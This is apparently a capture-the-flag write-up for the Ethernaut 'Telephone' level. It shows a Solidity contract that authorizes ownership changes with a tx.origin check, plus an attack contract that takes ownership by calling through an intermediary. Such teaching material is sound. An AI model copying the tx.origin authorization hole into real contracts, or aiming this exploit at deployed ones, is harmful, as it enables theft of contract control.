 # **Level 4 -- Telephone**
## **Contract to hack**
``` ts

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {

  address public owner;

  constructor() {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```
---
## ***Objectives***
* Claim ownership of the contract
---
## ***Thought Process***
Except for the `constructor()` function, this contract only has one function `changeOwner()`, and there are only one condition `tx.origin != msg.sender` in the function. Therefore we just need to fulfill the condition`tx.origin != msg.sender` to claim the ownership of the contract.
This is a very easy challenge.

---
## ***Solution***
Create a contract to call `changeOwner()`
``` ts
pragma solidity ^0.8.0;
interface ITelephone {
    function changeOwner(address _owner) external;
}

contract Telephone {
    address levelInstance;
    
    constructor(address _levelInstance) public {
      levelInstance = _levelInstance;
    }
  
  function claim() public {
    ITelephone(levelInstance).changeOwner(msg.sender);
  }

}
```



